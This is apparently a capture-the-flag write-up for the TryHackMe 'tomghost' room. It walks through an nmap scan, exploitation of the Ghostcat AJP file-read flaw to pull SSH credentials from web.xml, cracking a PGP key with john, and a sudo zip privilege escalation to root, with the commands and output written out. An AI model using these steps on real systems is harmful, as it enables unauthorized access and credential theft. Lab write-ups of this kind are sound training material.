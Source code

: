# [tomghost - Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.](https://tryhackme.com/r/room/tomghost)

![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/016dea7c96e8b422241016405b571c8b.jpeg)


## Enumeration

### Nmap

```
kali@kali:~/CTFs$ nmap -sC -sV -Pn $TARGETIP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 11:42 EDT
Nmap scan report for <TARGETIP>
Host is up (0.038s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.20 seconds
```

- Apache Tomcat and Apache Jserv are accessible

**Apache Jserv** is a packet-oriented, binary protocol, which can proxy inbound requests from a web server through to an application server. In other words, it allows the communication between a standalone web server and Tomcat. It should not be exposed to the public, since it can be used to gather sensitive information.

## Exploiting Apache Jserv

[CVE-2020-1938 - 'Ghostcat'](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)

The CVE is about a file read/inclusion vulnerability in the AJP connector in Apache Tomcat. Given the default config, the vulnerability is enabled by default on the default port 8009. An attacker can use this to remotely read web application files without having to authorize and
retrieve files anywhere in the web application, as long as the location is reachable via `ServletContext.getResourceAsStream()`, including directories such as **WEB-INF** and **META-INF**, which may provide sensitive data like login information.

To exploit our target, there is a script provided within the `metasploit`-framework. By reading */WEB-INF/web.xml*, we get the following result:
```
[*] Running module against <TARGETIP>
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```
- skyfuck:8730281lkjlkjdqlksalks seem to be credentials -> we can use them to establish an SSH-connection (`ssh skyfuck@<TARGETIP>`)

### Investigating skyf*ck's home-directory
Essentially, there are two important files
- tryhackme.asc - .asc files are used for secure communication -> it most likely includes the private key to decrypt the credential.pgp file
- credential.pgp - an encrypted file

1. Getting files over
```
scp skyfuck@<TARGETIP>:tryhackme.asc .
```
```
scp skyfuck@<TARGETIP>:credential.pgp .
```

2. Cracking tryhackme.asc using `john`
```
kali@kali:~/CTFs/tomghost/files_from_sky$ gpg2john tryhackme.asc > tryhackme.hash

File tryhackme.asc
                                                                                                                      
kali@kali:~/CTFs/tomghost/files_from_sky$ john -wordlist:/usr/share/wordlists/rockyou.txt tryhackme.hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2024-05-22 13:14) 11.11g/s 11933p/s 11933c/s 11933C/s theresa..trisha
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                      
kali@kali:~/CTFs/tomghost/files_from_sky$ 
```
3. Decrypt credential.pgp with **alexandru** as secretkey 
```
kali@kali:~/CTFs/tomghost/files_from_sky$ gpg --import tryhackme.asc             
```
```
kali@kali:~/CTFs/tomghost/files_from_sky$ gpg credential.pgp        
gpg: WARNING: no command supplied.  Trying to guess what you mean ...
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
                                                                                                                      
kali@kali:~/CTFs/tomghost/files_from_sky$ ls
credential  credential.pgp  tryhackme.asc  tryhackme.hash
                                                                                                                      
kali@kali:~/CTFs/tomghost/files_from_sky$ cat credential     
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j   
```

## User-flag
We can now establish an SSH-connection as the user **merlin** and gather the user-flag.
```
merlin@ubuntu:~$ cat user.txt
XXX{XXXXXXXXXXXXXXXXXXXX}
merlin@ubuntu:~$ 
```

## Root-flag
```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:~$ 
```
- /usr/bin/zip can be executed as root without a password via `sudo -> privilege escalation
- [GTFOBins](https://gtfobins.github.io/gtfobins/zip/)

```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# 
rm: missing operand
Try 'rm --help' for more information.
# cat /root/root.txt
XXX{XXXXXXXXXXX}
# 
```
